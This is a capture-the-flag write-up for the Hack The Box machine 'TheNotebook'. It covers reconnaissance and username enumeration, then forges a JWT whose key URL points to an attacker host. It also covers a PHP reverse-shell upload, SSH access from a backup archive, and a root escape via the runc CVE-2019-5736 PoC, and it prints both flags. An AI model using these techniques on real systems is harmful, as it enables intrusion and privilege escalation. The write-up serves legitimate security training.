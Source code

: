 # TheNotebook

export IP=10.10.10.230

# Solution

Lets start with the good ol' nmap scan (needed -Pn since it was not responding correctly)

```
cmd: sudo nmap -sC -sV -Pn -oN nmap/initial $IP

22/tcp    open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 86:df:10:fd:27:a3:fb:d8:36:a7:ed:90:95:33:f5:bf (RSA)
|   256 e7:81:d6:6c:df:ce:b7:30:03:91:5c:b5:13:42:06:44 (ECDSA)
|_  256 c6:06:34:c7:fc:00:c4:62:06:c2:36:0e:ee:5e:bf:6b (ED25519)
80/tcp    open     http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: The Notebook - Your Note Keeper
10010/tcp filtered rxapi    <- FILTERED?
```

So we have a filtered port, tried to run a **sneaky** scan but the same result so it is not filtered due to rate limit. Leaving all ports running on the back <br>

Doing a simple gobuster we found some pages that were not linked anywhere in the page
``` 
cmd: gobuster dir -u http://$IP -w /opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt -o gobuster/raft.medium.directories.log -t 100

/admin <- 403, needs admin login
```

Messing around, we have nothing really interesting lets try some things <br>

Starting with the login page (a simple SQLinjection) we can see that the response is 
```
Login Failed! User doesn't exist.
```

This seems suspicious and by creating a random account, it is confirmed that the login form is discolsing usernames because when the password is wrong the message is different
```
Login Failed! Reason: Incorrect Password
```

With this, if we get a username we might try to brute force its account in this form. Testing for **admin:123123** we have incorrect password <br>

Well it might be someone registering the user as admin and not be and administrator account at all <br>

Checking the page around, there's not much to do so i tried some things
```
STTI (username, note title and description) -> not vulnerable
DOM injection                               -> well sanitized
Command execution (title and description)   -> not vulnerable (to where i can tell)
```

Then i went and checked what the cookies were and if i could tamper with them. Checked the current set cookie with a simple base64 decode (with cyberchef) and i could see a field in them (although that more than half of it is encrypted)
```
{"typ":"JWT","alg":"RS256","kid":"http://localhost:7070/privKey.key"}{"username":"a","email":"a@a.a","admin_cap":0}  <- admin_cap(abilities) ?!?!
```

Tried to register and send that field modified, but nothing changed (still no **/admin** access) <br>

So i went ahead and checked what JWT is (cause i didnt knew nor used it), and it is a [JSON web token](https://jwt.io/introduction) with the following structure
```
headers.payload.signature
```

The headers and the payload are clear text and we can modify them right away
``` 
HEADERS: {"typ":"JWT","alg":"RS256","kid":"http://10.10.16.6/privKey.key"}

PAYLOAD: {"username":"a","email":"a@a.a","admin_cap":1}
``` 
Now we need tho add the keys, for it used the tool from the documentation (jwt.io) which outputs the cookie already formated. But now e need to generate keys to append to it, so here we go search again. <br>

Found a github post [jwt rsa key size](https://gist.github.com/ygotthilf/baa58da5c3dd1f69fae9) that give the needed commands (just need some minor tweaks in the file's names). The final cookie, after glued out, is as below
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly8xMC4xMC4xNi42L3ByaXZLZXkua2V5In0.eyJ1c2VybmFtZSI6ImEiLCJlbWFpbCI6ImFAYS5hIiwiYWRtaW5fY2FwIjp0cnVlfQ.cxw6Kh-vkDfk4O8y95Umy8493V3SCZhEwxZlFwzpUo8QGym_EIcTmYrgdyCFAmnBX5AiwKRD8YRPat8ZqHrIzhdpOhM88Sa1gUK2hUsgrv6rkRKQjpbdRTP2o8EkDNEt5lDnwMn_QRksiLbx1ap6Ih0L8XxxiZCRpIT_CwuRDdO8M-22gthp_LgxZHlv-pb4Y9Ybu97bmkjMX29YyWNL_Ha73yfnEdg1FulgRTnnnaeey-4sgUdCgo9qxtzu31YKa6QgSNawzC_U1_MHZuNpUjc38CQsJVZA2zbNBCUrAeRbhcRl0EYXfPj0iLq78Yz--axd65GCGwbgF7aTd6AIlQa1Q-BAhdfaqw7u6cSZGaKp60PqDfbBA7TaTli7kBc9G0281lLYfPofpUvQa6qqxv7fsH4UT_wB27rwo2asi2wVhwH8225IdUfUCYh_plhuwrbPtjXKMst7KFJd7COZ2eXOsNDxjOstYj5KA0DLy0aH9iSCBOuGNNv27NK-hPxMfFT2g4RxsTv-mIVAqg6w6Be_27SOn5jl_F3cdbzVa1o25xL0rRFBHOOXPzPdghDzeU6QCf4q2ibz_XRNSGqf1Sylts8rGKM-VCxrhAgZ-t0dPHQSlK9va_KDlhh9OuYh5f--6lMl9qC6IUxRTbXQpQg_-SFdmaJXmtXunBM53LE
```

Now using a cookie manager, at dev console or extension, reloading the page and accessing **/admin** we have access (dont forget the server so the keys can be accessed to be verified) <br>

The **/admin** page allow us to upload files, trying a php-reverse-shell right away give us access to the machine
``` 
cmd: whoami && id

www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

So i went ahead and started looking around for the website files but without relevant results 
```
cmd: find / -name "*register* 2>/dev/null
cmd: find / -name "*login* 2>/dev/null
```

Then i just checked **/var/www** (which is the www-data's home directory) and nothing was there.... humm <br>
So i checked the admin panel it might have something interesting or that i miss (since i jumped right to the reverse shell). And there were some notes
```
Title: Need to fix config
Body: Have to fix this issue where PHP files are being executed :/. This can be a potential security issue for the server.   (yeah, i already found that, LUL)
-------------------------------------------------------------------------------------------------------------------------------------------------------------------
Title: Backups are scheduled
Body: Finally! Regular backups are necessary. Thank god it's all easy on server. (hummmmm) 
```

Checking the **/var/backups** we can see and interesting file
```
cmd: ls -la /var/backups
-rw-r--r--  1 root root 33252 Feb 24 08:53 apt.extended_states.0
-rw-r--r--  1 root root  3609 Feb 23 08:58 apt.extended_states.1.gz
-rw-r--r--  1 root root  3621 Feb 12 06:52 apt.extended_states.2.gz
-rw-r--r--  1 root root  4373 Feb 17 09:02 home.tar.gz                  <--- Hummmmm
```
Getting the file to the local machine, and uncompressing it, we can see that is noah's home directory backup. And there is the **.ssh** folder, lets try ssh into the machine <br>

And voila, we got it
```
cmd: whoami && id

noah
uid=1000(noah) gid=1000(noah) groups=1000(noah)

cmd: cat ~/user.txt
FLAG: 9359af7b713827b4d97a0decd3a5408d
```

Checking what can be ran right away with sudo by this user we can see that it has something to do with docker
```
User noah may run the following commands on thenotebook:
    (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
```

Making some enumeration we can see several things that are not usually seen
```
 Networks and neighbours
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
default         10.10.10.2      0.0.0.0         UG    0      0        0 ens160
10.10.10.0      0.0.0.0         255.255.255.0   U     0      0        0 ens160
172.17.0.0      0.0.0.0         255.255.0.0     U     0      0        0 docker0


:DOCKER - [0:0]
-A PREROUTING -m addrtype --dst-type LOCAL -j DOCKER
-A OUTPUT ! -d 127.0.0.0/8 -m addrtype --dst-type LOCAL -j DOCKER
-A POSTROUTING -s 172.17.0.0/16 ! -o docker0 -j MASQUERADE
-A POSTROUTING -s 172.17.0.3/32 -d 172.17.0.3/32 -p tcp -m tcp --dport 8080 -j MASQUERADE
-A DOCKER -i docker0 -j RETURN
-A DOCKER -d 127.0.0.1/32 ! -i docker0 -p tcp -m tcp --dport 8080 -j DNAT --to-destination 172.17.0.3:8080

:DOCKER-USER - [0:0]
-A INPUT -p tcp -m tcp --dport 10010 -j DROP
-A INPUT -m state --state RELATED,ESTABLISHED -j ACCEPT
-A INPUT -j ACCEPT
-A FORWARD -j DOCKER-USER
-A FORWARD -j DOCKER-ISOLATION-STAGE-1
-A FORWARD -o docker0 -m conntrack --ctstate RELATED,ESTABLISHED -j ACCEPT
-A FORWARD -o docker0 -j DOCKER
-A FORWARD -i docker0 ! -o docker0 -j ACCEPT
-A FORWARD -i docker0 -o docker0 -j ACCEPT
-A OUTPUT -j ACCEPT
-A DOCKER -d 172.17.0.3/32 ! -i docker0 -o docker0 -p tcp -m tcp --dport 8080 -j ACCEPT
-A DOCKER-ISOLATION-STAGE-1 -i docker0 ! -o docker0 -j DOCKER-ISOLATION-STAGE-2
-A DOCKER-ISOLATION-STAGE-1 -j RETURN
-A DOCKER-ISOLATION-STAGE-2 -o docker0 -j DROP
-A DOCKER-ISOLATION-STAGE-2 -j RETURN
-A DOCKER-USER -j RETURN

tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -

runc was found in /usr/sbin/runc, you may be able to escalate privileges with it
```

Checking docker version
```
cmd: docker --version

Docker version 18.06.0-ce, build 0ffa825
```

There is a [CVE (CVE-2019-5736)](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-5736) for docker 18.09.2. I'll use this [PoC](https://github.com/Frichetten/CVE-2019-5736-PoC) <br>

The PoC is quite straight forward we just need to change the exploit to give a reverse shell instead of copying the **/etc/shadow** file<br>

Since the exploit overwrites the **/bin/sh** binary, we need to first connect to the docker image with **/bin/bash** and then connect again but using the modified the **/bin/sh** (which will give us the reverse shell) <br>

The exploiting process is (need two ssh shells to do it)
```
(SHELL 1 - machine ssh) cmd: sudo /usr/bin/docker exec -it webapp-dev01 /bin/bash
(SHELL 1 - docker /bin/bash) cmd: wget (compiled exploit)
(SHELL 1 - docker /bin/bash) cmd: chmod +x main
(SHELL 1 - docker /bin/bash) cmd: ./main
[+] Overwritten /bin/sh successfully

(SHELL 2 - machine ssh) cmd: sudo /usr/bin/docker exec -it webapp-dev01 /bin/sh

(Local listener - reverse shell) cmd: whoami && id
root
uid=0(root) gid=0(root) groups=0(root)
(Local listener - reverse shell) cmd: cat ~/root.txt

FLAG: f2d0e82a62ee1fb940b7a9266fd1b0c6
``` 